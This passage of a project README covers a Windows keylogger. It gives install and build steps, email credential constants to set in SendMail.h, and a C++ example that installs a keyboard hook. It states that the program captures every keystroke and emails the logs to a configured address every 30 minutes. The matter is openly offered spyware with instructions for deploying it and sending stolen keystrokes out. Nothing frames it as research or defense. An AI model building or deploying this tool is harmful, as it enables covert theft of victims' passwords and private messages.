 2. **Install Dependencies**: Ensure the Windows SDK is installed. For MinGW, install it via:

   ```bash
   pacman -S mingw-w64-x86_64-toolchain
   ```

3. **Configure Email Settings**: Edit `SendMail.h` to update the following constants with your email credentials:

   ```cpp
   #define X_EM_TO "recipient@example.com"
   #define X_EM_FROM "sender@example.com"
   #define X_EM_PASS "your-app-specific-password"
   ```

   **Note**: For Gmail, generate an app-specific password from your Google Account settings.

4. **Build the Project**: See Building the Project for detailed instructions.

5. **Run the Application**: Execute the compiled binary. The keylogger will start capturing keystrokes and sending logs based on the configured interval.

## Usage

1. **Start the KeyLogger**: Run the compiled executable. The application will install the keyboard hook and start the timer for email reporting.

2. **Monitor Logs**:

   - Keystrokes are stored in `KeyLog` and periodically written to files in the application’s directory.
   - Application logs are saved in `AppLog.txt` for debugging.

3. **Receive Emails**: Log files are sent to the configured email address at intervals defined by `MailTimer` (default: every 30 minutes).

4. **Stop the KeyLogger**: Call `UninstallHook` to remove the keyboard hook and stop the timer. This requires modifying `main.cpp` to include a shutdown mechanism (e.g., a key combination).

### Example

```cpp
#include "KeybHook.h"

int main() {
    if (!InstallHook()) {
        std::cout << "Failed to install hook!" << std::endl;
        return 1;
    }
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    UninstallHook();
    return 0;
}
```
